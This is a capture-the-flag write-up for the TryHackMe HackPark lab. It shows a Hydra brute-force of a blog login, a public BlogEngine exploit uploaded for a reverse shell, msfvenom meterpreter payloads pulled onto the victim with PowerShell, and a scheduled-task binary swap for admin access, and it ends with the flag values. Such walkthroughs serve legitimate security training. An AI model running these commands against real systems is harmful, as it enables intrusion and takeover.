# Try Hack Me - Hack Park

## Information
### Room URL
https://tryhackme.com/r/room/hackpark

### Target Machine IP
10.10.121.14

### Attacker Machine IP (curl 10.10.10.10/whoami)
10.4.73.48

## Task 1 - Deploy the vulnerable Windows machine
> Whats the name of the clown displayed on the homepage?

sudo nmap -Pn 10.10.121.14

http://10.10.121.14:80



### pennywisse

## Task 2 - Using Hydra to brute-force a login
> We need to find a login page to attack and identify what type of request the form is making to the webserver. Typically, web servers make two types of requests, a GET request which is used to request data from a webserver and a POST request which is used to send data to a server.
>
> You can check what request a form is making by right clicking on the login form, inspecting the element and then reading the value in the method field. You can also identify this if you are intercepting the traffic through BurpSuite (other HTTP methods can be found here).
>
> What request type is the Windows website login form using?

Navigate to the Log In page from Menu. Inspect. Open Network tab. Enter some fake data into the form then hit "Log In"



See in the network tab that the form uses a POST request type

> Now we know the request type and have a URL for the login form, we can get started brute-forcing an account.
>
> Run the following command but fill in the blanks:
>
> hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
>
>Guess a username, choose a password wordlist and gain credentials to a user account!

Use burpsuite to intercept the dummy login request (turn on proxy in browser)

Use the bottom part of what was captured to craft the Hydra command:

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.121.14 http-post-form "/Account/login.aspx:__VIEWSTATE=JRvn7jllcivHkBJAmDoT7XrkY4odZaLWNiSHQolbcHLa5JhcacnCECqzeB97cHBbRPEVr2yoRWmx8mySWRPMo%2FimGQ7T65b9Rs4wgiulSey%2F6RmnOM%2Bsf%2B%2FU2TAUb2RCrBoRplAXmvgFsGW2Oi%2FUJMj4dFFY8TcmAnh4o%2BvQblFHUjfMa3hQrVVPo4rxFXkR8CQkBU8STfyLJ0sFRSpM2UP6%2FV2%2FG6UuQbzy2bIwnzLux6JZLyrEWMmw%2BT9r8gU68MTSF1aNwc93N2CCOQYWZXUaQyOz52BMI24rZV4VmRKlTQZ9bO8u14mKnH%2FwHdjW%2FXnVuExSLxTEd4nEe%2BGFdDrHEoMC3XMVVCtbZZKc2dB1MdUB&__EVENTVALIDATION=2%2FzPQNxvcA%2FfIbEbHWPY37iUqqvLrz5aQjddwl5L9kmomYz6tTy0Qdthksd0OA0gyS1gQhKe8U4m0rxAsRLkH8Zj2Yjx1JtcG78gOKYIRWyvaYLwGn62MzProJcneNHwbJFtl0Zqjh4kGOPGdpV0pqsFUyvQ2TY1cY3qdmFi5cPKT%2FC5&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"



Username: admin

Password: 1qaz2wsx



## Task 3 - Compromise the machine
> Now you have logged into the website, are you able to identify the version of the BlogEngine?



BlobEngine Version: 3.3.6.0

> Use the [exploit database archive](https://www.exploit-db.com/) to find an exploit to gain a reverse shell on this system. 

[CVE2019-6714](https://www.exploit-db.com/exploits/46353)

>Using the public exploit, gain initial access to the server.
>
>Who is the webserver running as?

<ol>
  <li>Read the exploit information from the CVE database</li>
  <li>Modify the exploit to use your IP then save it as PostView.ascx</li>
  <li>Go to: http://10.10.121.14/admin/app/editor/editpost.cshtml</li>
  <li>Click the file upload icon</li>
  <li>Upload PostView.ascx</li>
  <li>Set up a reverse listener using the following command:  
nc –nlvp 4445</li>
  <li>Trigger the exploit at: http://10.10.121.14/?theme=../../App_Data/files</li>
</ol> 



Run whoami to get app account



iis apppool\blog

## Task 4 - Windows Privilege Escalation
>Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom. If you don't know how to do this, I suggest checking out the Metasploit module!
>
>Tip: You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!

<ol>
    <li>Craft the msfvenom command:  
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.4.73.48 LPORT=445 -f exe > reverse_shell.exe
    </li>
    <li>Start a web server on local maching to transfer file:  
    python -m http.server </li>
    <li>Run the following in existing reverse shell to upload to victim machine:  
    powershell -c "Invoke-WebRequest -Uri 'http://10.4.73.48:8000/reverse_shell.exe' -OutFile 'C:\Windows\Temp\reverse_shell.exe'"</li>
    <li>Navigate to "c:\windows\temp"</li>
    <li>Run "dir" to check the shell is there</li>
</ol>



Now on the host machine, start up metasploit and run the following commands:

<ol>
    <li>Load "use exploit/mulit/handler"</li>
    <li>set PAYLOAD windows/meterpreter/reverse_tcp</li>
    <li>set LHOST 10.4.73.48</li>
    <li>set LPORT 445</li>
    <li>run</li>
</ol>



Switch back to the victim shell and run "start reverse_shell.exe"

It may take a few seconds to start up the meterpreter shell



>You can run metasploit commands such as sysinfo to get detailed information about the Windows system. Then feed this information into the windows-exploit-suggester script and quickly identify any obvious vulnerabilities.
>
>What is the OS version of this windows machine?



Windows 2012 R2 6.3 Build 9600

>Further enumerate the machine.
>
>What is the name of the abnormal service running?

Looking in "C:\Program Files (x86)" reveals "SystemScheduler"



Looking further into "cd SystemScheduler/Events" reveals an event log



Here we can see that "Messages.exe" runs continuously after regular intervals and has administrative rights!



Craft a new payload to replace "Message.exe" with

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.4.73.48 LPORT=8888 -e x86/shikata_ga_nai -f exe -o Message.exe

Start another metasploit listener with the same config as before but port 8888 (to match the msfvenom payload)



On the first meterpreter shell, upload the new Message.exe payload to "C\Program Files (x86)\SystemScheduler":

powershell -c wget "http://10.4.73.48:8000/Message.exe" -outfile "Message.exe"

When the process runs "Message.exe" next the exploit will be run instead and the listener will open the second shell



Run "getuid" to confirm admin account



After some sniffing around, the user flag can be located at "C:\Users\jeff\Desktop\user.txt"

759bd8af507517bcfaede78a21a73e39



More sniffing around reveals the root flag at "C:\Users\Administrator\Desktop\root.txt"

7e13d97f05f7ceb9881a3eb3d78d3e72



## Task 5 - Privilege Escalation Without Metasploit

>Now you know how to pull files from your machine to the victims machine, we can pull winPEAS.bat to the system using the same method! (You can find winPEAS here)
>
>WinPeas is a great tool which will enumerate the system and attempt to recommend potential vulnerabilities that we can exploit. The part we are most interested in for this room is the running processes!
>
>Tip: You can execute these files by using .\filename.exe
>
>Using winPeas, what was the Original Install time? (This is date and time)

Upload "winPEAS.bat" to "C:\Windows\Temp":

powershell -c "Invoke-WebRequest -Uri 'http://10.4.73.48:8000/winPEASx64.exe' -OutFile 'C:\Windows\Temp\winPEASx64.exe'"

Confirm that winPEAS is there:



Run it by invoking ".\winPEASx64.exe" in the windows shell and wait for it to finish.

While winPEAS gives lots of good information, it is easier to get this information by running:

systeminfo | findstr /i date

8/3/2019, 10:43:23 AM



Room Complete :)